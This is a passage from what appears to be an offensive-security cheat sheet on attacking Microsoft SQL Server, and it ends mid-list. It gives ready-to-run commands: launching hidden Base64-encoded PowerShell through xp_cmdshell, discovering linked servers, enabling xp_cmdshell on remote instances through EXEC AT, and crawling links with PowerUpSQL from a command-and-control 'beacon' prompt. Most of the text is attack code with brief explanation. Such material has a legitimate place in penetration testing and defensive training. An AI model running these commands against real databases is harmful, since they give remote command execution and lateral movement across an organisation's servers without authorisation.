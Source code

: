 Finally append the command to the `xp_cmdshell` procedure.

```
EXEC xp_cmdshell 'powershell -w hidden -enc <B64-EncodedCommand>';
```

# Lateral Movement (Linked Servers)

SQL Servers have a concept called "Linked Servers", which allows a database instance to access data from an external source. 

## Discovery links

We can discover Database Links in many ways.

* PowerUpSQL:
```powershell
Get-SQLServerLink -Instance mssql.corp.local -Verbose
```

* Manually:

```
SELECT * FROM master..sysservers;
```

## Query a Remote Instance

With `OpenQuery` we can query a remote instance:

```
SELECT * FROM OPENQUERY("sql-1.corp.local", 'select @@servername');
```

> **Note**: The use of double and single quotes are important when using OpenQuery.

It is not possible to enable `xp_cmdshell` via `OpenQuery`. If RPC Out is enabled on the link which is not the default configuration, you can enable `xp_cmdshell` using the following command:

```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.corp.local]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.corp.local]
```

## Crawl between Instances

Manually querying databases to find links can consume a lot of time. We can use `Get-SQLServerLinkCrawl` to automatically crawl all available links.

* PowerUpSQL:

```powershell
beacon> powershell Get-SQLServerLinkCrawl -Instance "mssql.corp.local,1443"
```

We can execute commands manually by concatenating commands:

* 1 hop:
